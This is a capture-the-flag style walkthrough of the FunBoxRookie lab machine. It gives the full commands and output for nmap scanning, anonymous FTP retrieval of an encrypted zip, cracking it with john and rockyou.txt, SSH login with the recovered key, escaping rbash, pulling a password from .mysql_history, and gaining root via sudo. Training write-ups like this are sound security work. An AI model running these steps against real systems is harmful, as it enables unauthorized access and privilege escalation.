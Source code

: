 ```yaml
---
title : "FunBoxRookie- Walkthrough"
date : 21-10-2024 01:00:00
categories : [Writeups,Offsec-Play]
tags : [Offsec-Play, OSCP]
---
```



## Summary

This machine is exploited with an anonymous FTP server containing file **id_rsa** and then the disclosure of user credentials in a history file. It is escalated via open sudo that allows the user to run any command with elevated privileges.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```bash
kali@kali:~$ sudo nmap 192.168.120.138
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 13:07 EDT
Nmap scan report for 192.168.120.138
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

We can run a more detailed `nmap` scan with the `-sC` flag against the discovered ports:

```bash
kali@kali:~$ sudo nmap -p 21,22,80 192.168.120.138 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 13:09 EDT
Nmap scan report for 192.168.120.138
Host is up (0.030s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:52 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:58 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25 10:44 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 zlatan.zip
22/tcp open  ssh
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/logs/
|_http-title: Apache2 Ubuntu Default Page: It works
```

The FTP server listening on the default port allows for anonymous logins, and we see several zip files listed.

## Exploitation

### Anonymous FTP Server

Of the files shown in the scan, only file **tom.zip** will prove useful to us. Next, we can log in and retrieve it:

```bash
kali@kali:~$ ftp 192.168.120.138
Connected to 192.168.120.138.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.120.138]
Name (192.168.120.138:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.118.3 !
230-
230-The local time is: Wed Oct 14 17:11:13 2020
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get tom.zip
local: tom.zip remote: tom.zip
200 PORT command successful
150 Opening BINARY mode data connection for tom.zip (1477 bytes)
226 Transfer complete
1477 bytes received in 0.00 secs (28.1715 MB/s)
ftp> bye
221 Goodbye.
kali@kali:~$ 
```

However, if we try to open the archive, we will find that it is password-protected.

### Password Bruteforce

We can use `zip2john` to convert the encrypted archive to a hash file usable by `john`:

```bash
kali@kali:~$ zip2john tom.zip > tom.hash
ver 2.0 efh 5455 efh 7875 tom.zip/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=1299, decmplen=1675, crc=39C551E6
kali@kali:~$
```

We can now use `john` and the **rockyou.txt** wordlist to crack the password:

```bash
kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt tom.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)
1g 0:00:00:00 DONE (2020-10-14 13:17) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$
```

The cracker succeeds and reveals that the password is `iubire`. Using it, we can unlock the archive:

```bash
kali@kali:~$ unzip -P iubire tom.zip
Archive:  tom.zip
  inflating: id_rsa

kali@kali:~$
```

We have obtained a private SSH key file **id_rsa**.

### SSH

Since we have obtained the private key from the archive **tom.zip**, we can assume that the user is named `tom`. Next, we will set proper key file permissions and then SSH to the target:

```bash
kali@kali:~$ chmod 0600 id_rsa
kali@kali:~$
kali@kali:~$ ssh -o StrictHostKeyChecking=no -i id_rsa tom@192.168.120.138
...
tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
tom@funbox2:~$
```

### Escaping Restricted Shell

But, if try to change directory or any of the other restricted commands, we will find that our default shell upon login is `rbash`, which we must first escape:

```bash
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd ..
-rbash: cd: restricted
tom@funbox2:~$
```

There are many ways to do so, and we will choose one of the easiest ones (exiting the current shell and then reconnecting with the flag `-t "bash --noprofile"`):

```bash
tom@funbox2:~$ exit
logout
-rbash: /usr/bin/clear_console: restricted: cannot specify `/' in command names
Connection to 192.168.120.138 closed.
kali@kali:~$
kali@kali:~$ ssh -o StrictHostKeyChecking=no -i id_rsa tom@192.168.120.138 -t "bash --noprofile"
load pubkey "id_rsa": invalid format
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd ..
tom@funbox2:/home$
```

We are now able to traverse and enumerate the system further.

## Escalation

### User Password Recovery

Looking around the user's home directory, we find a MySQL history file:

```bash
tom@funbox2:/home$ cd ~
tom@funbox2:~$ ls -la
...
-rw------- 1 tom  tom   295 Jul 25 12:04 .mysql_history
...
tom@funbox2:~$
```

In this file, we see the history of several MySQL commands:

```bash
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
tom@funbox2:~$
```

The command `insert\040into\040support\040(tom,\040xx11yy22!);` looks very interesting as it contains string `xx11yy22!` that looks like a password.

### Sudo Escalation

Trying the password for the user to enumerate sudo privileges works, and we see that user `tom` is actually able to run any command with sudo, providing the password:

```bash
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
tom@funbox2:~$
```

We can easily use this to get a root shell:

```bash
tom@funbox2:~$ sudo su
root@funbox2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox2:/home/tom#
```
